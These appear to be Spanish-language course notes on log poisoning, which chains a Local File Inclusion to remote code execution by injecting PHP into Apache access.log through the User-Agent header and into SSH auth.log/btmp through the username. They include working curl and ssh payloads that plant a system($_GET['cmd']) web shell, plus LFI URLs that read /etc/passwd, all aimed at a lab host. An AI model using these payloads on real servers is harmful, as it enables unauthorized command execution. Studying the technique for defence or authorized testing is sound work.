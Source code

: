 # Log Poisoning (LFI -> RCE)

Tags: #LFI #OWASP #Explotacion #RCE

El **Log Poisoning** es una técnica de ataque en la que un atacante **manipula** los **archivos de registro** (**logs**) de una aplicación web para lograr un resultado malintencionado. Esta técnica puede ser utilizada en conjunto con una vulnerabilidad **Local File Inclusion (LFI)** para lograr una **Remote Code Execution (RCE)** en el servidor.

Como ejemplos para esta clase, trataremos de envenenar los recursos ‘**auth.log**‘ de **SSH** y ‘**access.log**‘ de **Apache**, comenzando mediante la explotación de una vulnerabilidad LFI primeramente para acceder a estos archivos de registro. Una vez hayamos logrado acceder a estos archivos, veremos cómo manipularlos para incluir código malicioso.

En el caso de los logs de SSH, el atacante puede inyectar código PHP en el campo de **usuario** durante el proceso de autenticación. Esto permite que el código se registre en el log ‘**auth.log**‘ de SSH y sea interpretado en el momento en el que el archivo de registro sea leído. De esta manera, el atacante puede lograr una ejecución remota de comandos en el servidor.

En el caso del archivo ‘**access.log**‘ de Apache, el atacante puede inyectar código PHP en el campo **User-Agent** de una solicitud HTTP. Este código malicioso se registra en el archivo de registro ‘access.log’ de Apache y se ejecuta cuando el archivo de registro es leído. De esta manera, el atacante también puede lograr una ejecución remota de comandos en el servidor.

Cabe destacar que en algunos sistemas, el archivo ‘**auth.log**‘ no es utilizado para registrar los eventos de autenticación de SSH. En su lugar, los eventos de autenticación pueden ser registrados en archivos de registro con diferentes nombres, como ‘**btmp**‘.

Por ejemplo, en sistemas basados en Debian y Ubuntu, los eventos de autenticación de SSH se registran en el archivo ‘auth.log’. Sin embargo, en sistemas basados en Red Hat y CentOS, los eventos de autenticación de SSH se registran en el archivo ‘btmp’. Aunque a veces pueden haber excepciones.

Para prevenir el Log Poisoning, es importante que los desarrolladores limiten el acceso a los archivos de registro y aseguren que estos archivos se almacenen en un lugar seguro. Además, es importante que se valide adecuadamente la entrada del usuario y se filtre cualquier intento de entrada maliciosa antes de registrarla en los archivos de registro.

## HTML Apache

```bash 
# Ingresar al grupo 'adm' e ir a la siguiente ruta para ver los logs
/var/log
```

```shell
❯ cat access.log       # Ver los logs en Apache

# Ruta típica de logs de Apache en donde podemos ver los logs, incluyendo los del User Agent ('Mozilla/5.0 (Windows NT...)') 'User Agent': Es un campo del protocolo HTTP que puede utilizarse para transmitir información mas o menos detallada sobre el dispositivo de consulta que tramita la solicitud

'index.php?filename=/var/log/apache2/access.log'  
```

```bash 
# Hacer la solicitud a la pagina y mirar en los log el User-Agent y la petición que hicimos

❯ curl -s -X GET "http://localhost/test" -H "User-Agent: PROBANDO"

	# H = Cabecera que queremos modificar
```

## Inyección de comandos 

```shell
# Podemos inyectar comandos si estamos en una pagina en PHP **Nota**: La funcion System debe de estar habilitada. Para saber si hay funciones deshabilitadas usar el siguiente comando:

❯ curl -s -X GET "http://localhost/test" -H "User-Agent: <?php phpinfo(); ?>"   # Miras el phpinfo en la web y nos fijamos en 'disable_functions' para verificar que no este system ahi 
```

```shell
❯ curl -s -X GET "http://localhost/test" -H "User-Agent: <?php system('whoami'); ?>"
```

```shell
# Controlar la ejecución del comando
❯ curl -s -X GET "http://localhost/test" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"     # Escapamos el dollar porque en bash a veces genera conflictos

Notas:
	1. index.php?filename=/var/log/apache2/access.log&cmd=whoami    # Colocar al final '&cmd=comando' para ejecutar cualquier comando
```

## SSH

```shell
# Ingresar al grupo 'adm' e ir a la siguiente ruta para ver los logs
/var/log
```

```shell
❯ cat auth.log            # Mirar los logs en SSH
❯ cat btmp
```

```shell
❯ ssh test@172.17.0.2     # Autenticar con ssh
```

```shell
❯ ssh '<?php system($_GET["cmd"]); ?>'@172.17.0.2

Notas:
	1. Se puede controlar la ejecución del comando, si ese archivo tiene capacidad de escritura
	2. En 'index.php?filename=/var/log/btmp&cmd=cat /etc/passwd' colocar al final '&cmd=whoami' para ejecutar cualquier comando
```